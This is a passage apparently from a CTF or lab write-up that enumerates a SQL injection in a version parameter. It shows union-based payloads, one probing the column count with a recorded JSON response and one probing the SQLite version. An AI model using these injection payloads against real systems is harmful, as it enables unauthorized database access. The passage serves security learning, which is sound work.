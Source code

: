 
#### Enumerate

Edit the payload from **Decoded From** input box -> apply changes -> press `CTRL + SPACE` to send request

![](/assets/obsidian/c1c34570bb759309efe9e9376d369cb9.png)


##### Enumerate table's column count

Payload:
```sql
0.0.2' union all select NULL, NULL, NULL, NULL; --
```

Response:
```json
{"message": {"id": null, "version": null, "released_date": null, "downloads": null}}
```


##### Enumerate Basic Information

Tried enumerating `dbms version`,  `user`, `database`, doesn't work

Functions:
- `version()`, `user()`, `database()`

Use the DMBS Identification list from [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection#dbms-identification)

Payload:
```sql
0.0.2' union all select NULL, NULL, NULL, sqlite_version(); --
```

